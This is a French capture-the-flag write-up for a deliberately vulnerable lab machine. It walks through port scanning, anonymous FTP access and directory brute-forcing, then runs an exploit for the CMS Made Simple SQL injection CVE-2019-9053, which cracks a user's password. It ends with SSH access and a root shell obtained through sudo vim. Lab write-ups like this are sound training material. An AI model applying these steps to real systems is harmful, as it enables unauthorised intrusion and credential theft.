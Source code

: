 # Simple CTF

## I- Scanning

On utilise nmap `nmap -sC -sV <target ip>` ou tu peux faire un nmap agressif `nmap -A <target ip>` ou encore `nmap -sV <target ip>`

On regarde les ports ouvert et en fonction on peut essayer de se connecter aux services disponible (ex: HTTP, SSH, SMB etc…)

Ici on a FTP, SSH et un serveur web avec Apache qui sont ouvert

## II- Enumération

On peut commencer par inspecter le serveur FTP car d’après nmap on peut se connecter de manière anonyme sans les accès

```powershell
ftp anonymous
```

En faisant “dir” on a trouvé un fichier .txt intéressant, puis avec mget \<fichier> on a pu le récupérer sur notre machine, seulement après un “cat” nous avons seulement un indice comme quoi le mot de passe est faible.

On peut ensuite se connecter au serveur web qui tourne sur le port 80:

On utilise **gobuster** lors de cette étape pour découvrir les dossier présent sous la page web:

```powershell
gobuster dir -u http://<ip-cible> -w <wordlist>
```

On trouve un dossier caché: /simple

Sur la page de ce dossier /simple, on sait qu’il est utilisé par “CMS Made Simple” version 2.2.8 qui est associé à une vulnérabilité (Injection SQL)

[https://nvd.nist.gov/vuln/detail/CVE-2019-9053](https://nvd.nist.gov/vuln/detail/CVE-2019-9053)

```powershell
searchsploit cms made simple 2.2.8
```

## III- Exploitation

On va donc utiliser cet exploit.

```powershell
python CVE-2019-9053.py -u <http://10.10.2.28/simple/> --crack -w 10k-most-common.txt
```

Il nous trouve un username ainsi que le mot de passe

```powershell
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

On va utiliser tout ça pour se connecter en SSH:

```powershell
ssh mitch@<ip-cible> -p 2222
```

Il suffit maintenant de se balader dans l’arborescence pour avoir le premier flag.

## IV-Escalation de privilège

Pour vérifier ce que notre user actuel peut faire en tant que root:

```powershell
sudo -l
```

Ce dernier peut utiliser vim, on vérifie sur le site si il n’y a pas d’escalation de privilège là-dessus:

[https://gtfobins.github.io/gtfobins/](https://gtfobins.github.io/gtfobins/)

```powershell
sudo vim -c ':!/bin/sh'
```

On passe en shell root, on peut faire un whoami pour vérifier que nous sommes bien root.
